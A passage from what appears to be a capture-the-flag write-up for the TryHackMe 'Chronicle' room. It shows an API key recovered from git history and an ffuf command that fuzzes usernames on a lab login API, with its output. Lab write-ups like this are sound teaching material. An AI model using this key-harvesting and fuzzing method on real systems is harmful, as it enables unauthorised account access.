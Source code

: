 ```
new file mode 100644
index 0000000..86c5733
--- /dev/null
+++ b/static/css/boot.css
@@ -0,0 +1,803 @@
+/*Google Fonts*/
+@import url('https://fonts.googleapis.com/css?family=Montserrat:500,600,700');
+@import url('https://fonts.googleapis.com/css?family=Source+Sans+Pro:400,600,700');
+@import url("https://maxcdn.bootstrapcdn.com/font-awesome/4.7.0/css/font-awesome.min.css");

```
Moving to the other website under 8081 port, there is a login page, and the LOGIN button and register does not seems to be working.
Forgot password works.

we will do a simple reqeust with NULL key, and random username with POST parametre, its show invalid API key

![6](https://user-images.githubusercontent.com/74853138/128646906-b74243dd-e384-46bf-9921-e84c94e875e8.png)


Now let's try our Key found in this command

```
git log -p
``` 
it's showing Invalid user
![7](https://user-images.githubusercontent.com/74853138/128646999-cde385f3-62be-49e6-9309-45af452129e0.png)

so let's try FUZZing the right user

```
root@ubuntu:~/THM/Chronicle# ffuf -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -X POST -d '{"key":"7454c2[hidden]]c0dbc7ef"}' -u http://10.10.173.255:8081/api/FUZZ -fw 2

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.173.255:8081/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
 :: Data             : {"key":"7454c[Hidden]]0dbc7ef"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 2
________________________________________________

tommy                   [Status: 200, Size: 49, Words: 1, Lines: 1]
[WARN] Caught keyboard interrupt (Ctrl-C)

```
